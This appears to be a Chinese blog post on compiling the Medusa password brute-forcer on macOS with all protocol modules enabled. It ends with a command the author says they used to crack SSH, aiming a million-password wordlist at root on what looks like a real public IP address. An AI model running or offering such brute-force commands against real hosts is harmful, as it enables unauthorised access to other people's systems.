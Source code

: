 # Mac OS安装Medusa

> 关于`Medusa`可参考https://github.com/jmk-foofus/medusa

这玩意最坑的就是官方给出的下载安装方式太不清晰了，默认情况下啥模块都没安装，简直坑人

```shell
#getting the source
git clone https://github.com/jmk-foofus/medusa
cd medusa

#macOS dependencies
brew install freerdp
$ export FREERDP2_CFLAGS='-I/usr/local/include'
$ export FREERDP2_LIBS='-I/usr/local/lib/freerdp'

#building
./configure --enable-debug=yes --enable-module-afp=yes --enable-module-cvs=yes --enable-module-ftp=yes --enable-module-http=yes --enable-module-imap=yes --enable-module-mssql=yes --enable-module-mysql=yes --enable-module-ncp=yes --enable-module-nntp=yes --enable-module-pcanywhere=yes --enable-module-pop3=yes --enable-module-postgres=yes --enable-module-rexec=yes --enable-module-rlogin=yes --enable-module-rsh=yes --enable-module-smbnt=yes --enable-module-smtp=yes --enable-module-smtp-vrfy=yes --enable-module-snmp=yes --enable-module-ssh=yes --enable-module-svn=yes --enable-module-telnet=yes --enable-module-vmauthd=yes --enable-module-vnc=yes --enable-module-wrapper=yes --enable-module-web-form=yes
make && make install

#executing
./src/medusa
```

如果使用`SSH`功能可能出现缺少`libssh2`模块的提示，可使用命令`brew install libssh2`进行安装，安装完需重新编译`Medusa`。即`make clean`后重新编译安装。以下是我使用`SSH`破解时使用到的命令

```shell
./src/medusa -M ssh -h 47.75.52.11 -u root -P ~/Downloads/10_million_password_list_top_1000000.txt -e ns -t 5 -f
```

